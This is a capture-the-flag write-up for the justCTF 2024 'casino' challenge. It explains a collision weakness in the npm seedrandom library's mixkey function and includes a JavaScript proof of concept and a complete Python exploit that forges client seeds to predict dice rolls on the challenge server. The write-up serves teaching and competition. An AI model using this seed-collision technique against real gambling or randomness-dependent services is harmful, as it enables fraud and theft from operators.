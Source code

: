 Author: 0x6fe1be2

Version 27-03-24

# [justCTF 2024 teaser](https://ctftime.org/event/2342) (15.06-16.06)

## casino
Category: MISC, WEB

Points: 394 (7 Solves)

Teammates: lavish, kdm, profiluefter

> Although the odds of winning are rigged, this casino is 100% fair! Can you win against the house?
> + http://casino.web.jctf.pro
>  + https://s3.cdn.justctf.team/95d9162d-abfc-4aac-8aed-b30a4d90c773/casino_docker.tar.gz  

### TL;DR

the npm package `seedrandom` has a collision vulnerability in `mixkey(seed, key)`, that can be abused to generate collisions in the generated seeds. This is exploited to create reoccuring rolls

### Overview

The challenge is a simple node js application that allows us to register for an account an play dice against the server.

```
.
├── Dockerfile
├── app.js
├── casino_docker.tar.gz
├── docker-compose.yaml
├── package.json
└── static
    ├── home.html
    ├── index.html
    ├── js
    │   ├── dice.js
    │   ├── main.js
    │   └── provablyFair.js
    ├── login.html
    └── provably-fair.html
```

We start with a balance of 1000 and need to aquire:

![one billion dollars](https://external-preview.redd.it/zoHY8xZQBX1jP5x8ZokujiQTh9VfhJHfgjMf1gFBalM.jpg?auto=webp&s=5651d4db504fe41ae3344e3d8fcdf563a8c6057e)

this is infeasible by pure luck so lets look at the code (or scroll through the website `/provably-fair.html`):

```js
app.post("/bet", (req, res) => {
    ...
    
    if (typeof clientSeed != "string" || clientSeed.length != 64) {
        res.json({ "error": "Invalid client seed!" })
        return
    }
    
    ...

    let roll = (seedrandom(JSON.stringify({
        serverSeed: req.user.serverSeed,
        clientSeed,
        nonce: req.user.nonce++
    })).int32() >>> 0) % 6 + 1

    ...
});

```

this uses the values`req.user.serverSeed`, `clientSeed` and `req.user.nonce` for to generate a object that combined into a string using`JSON.stringify` each bet. Notable observation are:  

+ serverSeed is securely randomly generated (and not changed) and 64 bytes long
+ clientSeed is provided for the user for each bet and 64 bytes long
+ nonce starts at 0 and get's incremented for each bet


We can also see that the `seedrandom` package ([npmjs](https://www.npmjs.com/package/seedrandom)) is used to generate the random value and role. 

Looking through the source code and the closed issues we find some interesting stuff, notably: [ Strings consisting of a repeated pattern cause collisions #63 ](https://github.com/davidbau/seedrandom/issues/63) and even though this isn't the intended vulnerability it's a good indecator that the library might have more issues.


### Vulnerability

Let's look at the source code of seedrandom, and we quickly find this function:

[seedrandom.js](https://github.com/davidbau/seedrandom/blob/released/seedrandom.js#L179)

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '', smear, j = 0;
  while (j < stringseed.length) {
    key[mask & j] =
      mask & ((smear ^= key[mask & j] * 19) + stringseed.charCodeAt(j++));
  }
  return tostring(key);
}
...
```

This is called using an empty list for `key` and the `seed` supplied from directly calling seedrandom. The mask value is `0xff` so basically a one byte mask. The code seems very basic and is not really trying to prevent any collision, but because it's kind of a big one liner it might not be easy to understand, so let's simplify it:

```js
...
function mixkey(seed, key) {
  var stringseed = seed + '';
  var smear = 0;
  var j = 0;
  while (j < 0x100 &&j < stringseed.length) {
	\\ smear is always 0 for first round
    key[mask & j] = mask & stringseed.charCodeAt(j);
    j++;
  }
  while (j < stringseed.length) {
  	smear ^= key[mask & j] * 19;
    key[mask & j] = mask & (smear + stringseed.charCodeAt(j));
    j++;
  }
  return tostring(key); \\ create 255 length string from byte array
}
...
```

as we can see the seed wraps arround after 0x100 characters and 'insecurly' combines the values, especially if we consider that `stringseed.charCodeAt(j)` can return values larger than 0x1000.

so let's try to create collision:

### PoC

this is a simple PoC code that creates collisions using our prefix (in this case we can just use any serverSeed) and a predictable suffix.

```js
const seedrandom = require('seedrandom')
mask = 0xff
prefix = '{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'
rands = crypto.randomBytes(0x100/2).toString("hex")
suffix1='","nonce":0}'
suffix2='","nonce":1}'
ssize = suffix1.length

a = prefix + rands + suffix1

let smear = 0

for(let i = 0; i < a.length-0x100-ssize; i++) 
  smear ^= (a.charCodeAt(i)*19) & 0xff

let inject = ''  
let csmear = smear

for(let i = a.length-ssize; i < a.length; i++){
  let j = 0
  smear ^= (a.charCodeAt(i-0x100)*19) & 0xff
  for(; j < 0x100; ++j){
    if(((a.charCodeAt(i)+smear)&0xff) == ((suffix2.charCodeAt(i-a.length+ssize)+(csmear^(j*19)))&0xff)) {
      break;
    }
  }
  
  if(j == 0x100)
    console.log('no solution')

  inject += String.fromCharCode(j)
  csmear ^= (j * 19) & 0xff
}

b = prefix + inject + rands.substring(inject.length) + suffix2

console.log(seedrandom(a).int32())
console.log(seedrandom(b).int32())

```

so now that we can create a collision there is only one remaining problem, for a wrap arround we need at least 0x100 (256) bytes and in order to align the predictable suffix with our user controlled value we need our user controlled value to be about 0x100 by itself, but it's limited to 64, so how do we do this?

### json.dumps vs JSON.stringify

JSON stringify actually escapes certain string, notably these:

```js
>> JSON.stringify('\0') \\ length 6
'"\\u0000"' 

>> JSON.stringify('') \\ length 2
'""' 
```

which we can use to increase the size of our client_seed to (and above) the desired length of 0x100.

Sadly i ran into an issue here, I wrote my exploit in python and hopped that `json.dumps` creates the same strings as `JSON.stringify`, which is not the case, and can easily be tested like this:

```js
for(let i = 0; i < 0x1000; i++)
  if(JSON.stringify(String.fromCharCode(i)).length != 3)
    console.log(i)
```
and for pythone

```python
import json
for i in range(0x100):
	if json.dumps(chr(i)) != 3:
		print(i)
```

notably all charcters after 0x7f are unicode escaped to 6 bytes in pythone, which is not the case for js.

so we just create a comparable list ourselves using this:
```python
printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))
```

We can now combine all our techniques to write and exploit and get the flag.

### Exploit

Flag: `justCTF{n0_w4y__h0w_1ucky_4re_y0u??}`

<details>

```python
#!/usr/bin/env python3

import requests
import random
import string
import json
import subprocess


URL = 'http://casino.web.jctf.pro'

# URL = 'http://localhost:3030'

def gen_random(length: int, alphabet: str = string.ascii_lowercase) -> str:
  return ''.join(random.choices(alphabet, k=length))

def reg_user(session, username: str, password: str):
  data = {
    'username': username,
    'password': password
  }
  r = session.post(f'{URL}/register', data=data)
  
  assert r.status_code == 200


def get_info(session):
  return session.get(f'{URL}/info').json()


def bet(session, amount: int, guess: int, client_seed: str):
  data = {
    'bet': amount,
    'guess': guess,
    'clientSeed': client_seed
  }
  r = session.post(f'{URL}/bet', data=data)
  
  assert r.status_code == 200
  return r.json()

def mixkey(seed, key):
  mask = 0xff
  stringseed = seed + ''
  smear = 0
  j = 0
  while j < len(stringseed):
    smear ^= key[mask & j] * 19
    key[mask & j] = mask & (smear + ord(stringseed[j]));
    j += 1
  return ''.join(chr(x) for x in key);

printables = list(filter(lambda x: chr(x) not in ('"', '\\'), range(32, 0x1001)))

rands = list(gen_random(64))

i = 0
while (rsz := len(json.dumps(''.join(rands)))) != 0x102:
  if rsz < 0x102:
    i -= 1
    rands[i] = '\0'
  else:
    rands[i] = '"'

rands = ''.join(rands)
rands_stringify = json.dumps(rands)[1:-1]

def gen(n1=0, cnt=9, prefix='{"serverSeed":"24fc5b5e3a5bd0aa85b1cc9c116eef52feeed884676173bfd1d725741b213d33","clientSeed":"'):

  suffix1='","nonce":%d}' % n1
  outs = [rands]

  for i in range(1, cnt+1):
    suffix2 = '","nonce":%d}' % (n1 + i)
    assert len(suffix1) == len(suffix2)
    ssize = len(suffix1)

    a = prefix + rands_stringify + suffix1

    smear = 0

    for i in range(len(a)-0x100-ssize):
      smear ^= (ord(a[i])*19) & 0xff

    inject = ''  
    csmear = smear

    for i in range(len(a)-ssize, len(a)):
      j = 0
      char = -1
      smear ^= (ord(a[i-0x100])*19) & 0xff
      for j in printables:
        if(((ord(a[i])+smear)&0xff) == ((ord(suffix2[i-len(a)+ssize])+(csmear^(j*19)))&0xff)):
          char = j
          break;
      
      if(char == -1):
        print('no solution')
        exit(1)

      inject += chr(char)
      csmear ^= (j * 19) & 0xff

    clash = inject + rands[len(inject):]
    
    b = prefix + json.dumps(clash)[1:-1] + suffix2

    # print(a)
    # print(b)

    outs.append(clash)

  return outs

# username = gen_random(10)
# password = gen_random(12, alphabet=string.ascii_letters + string.digits)
# 
# session = requests.Session()
# reg_user(session, username, password)
# 
# for s in gen(0, 1):
#   bet_data = bet(session, 50, 1, s)
#   print(bet_data, end='\n')
# 
# exit(0)

while True:
  username = gen_random(10)
  password = gen_random(12, alphabet=string.ascii_letters + string.digits)

  session = requests.Session()
  reg_user(session, username, password)

  guess = -1
  for s in gen(0):
    bet_data = bet(session, 100, guess if guess != -1 else 1, s)
    print(bet_data, end='\n')

    if guess == -1:
      guess = bet_data['roll']

  if bet_data['balance'] <= 1700:
    continue

  for i in range(10, 1000000, 10):
    guess = -1 
    for s in gen(i):
      bet_size = bet_data['balance'] // 4 if guess != -1 else 1
      bet_data = bet(session, bet_size, guess if guess != -1 else 1, s)
      print(bet_data, end='\n')

      if bet_data['balance'] < 1000:
        break 

      if guess == -1:
        guess = bet_data['roll']

      if bet_data['balance'] >= 1e9:
        r = session.get(f'{URL}/flag')
        print(r.text)
        exit(0)

    if bet_data['balance'] < 1000:
      break 

```

</details>